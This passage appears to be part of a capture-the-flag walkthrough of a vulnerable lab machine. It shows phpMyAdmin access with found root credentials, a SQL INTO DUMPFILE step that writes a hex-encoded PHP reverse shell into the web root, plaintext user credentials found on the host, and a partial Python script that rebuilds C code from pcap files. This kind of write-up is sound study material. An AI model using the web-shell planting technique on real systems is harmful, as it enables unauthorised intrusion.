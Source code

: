 ## 5. phpMyAdmin Exploitation

Using the credentials `root / Fg-'kKXBj87E:aJ$`, the analyst accessed **phpMyAdmin**.

Within the interface, multiple databases were available. Importantly, the analyst had the ability to **write files to the web root**, enabling remote code execution.

## 6. Web Shell Deployment

A PHP reverse shell was obtained from [revshells.com](https://www.revshells.com/) and converted into hexadecimal format. The payload was then written to the web server’s accessible template directory using SQL:

```sql
SET @bin = 0x[hex of php shell];
SELECT @bin INTO DUMPFILE '/var/www/forum/templates_c/cmd.php';
```

This granted remote code execution capabilities via the web interface. From here, the analyst could either issue individual commands or deploy a reverse shell for further interaction.

## 7. Privilege Escalation and Enumeration

While enumerating the system, the analyst discovered the directory:

```
/home/LOOKATME
```

Inside was a credential file containing:

```
lmezard:G!@M6f4Eatau{sF"
```

These credentials permitted local login as user **lmezard**, although SSH access was not available. Only local shell access was viable from the compromised web shell.

## 8. Binary and File Analysis

Within `lmezard`’s home directory, a file named `fun` was found. This file was transferred to a writable location, downloaded, and analyzed. It was a **tar archive** containing a series of `.pcap` files.

Each `.pcap` contained fragments of **C source code**, embedded within the payloads. A custom Python script was written to reconstruct the complete C file:

```python
import os

def get_key(string):
    tmp = string[len("//file"):]
    digits = ''
    for c in tmp:
        if not c.isdigit():
            break
        digits += c
    return int(digits) if digits else -1

def main():
    path = os.getcwd()
    files = [f for f in os.listdir(path) if os.path.isfile(os.path.join(path, f))]
    map_of_files = {}

    for file in files:
        with open(file, 'r') as f:
            lines = f.readlines()
            if not lines:
```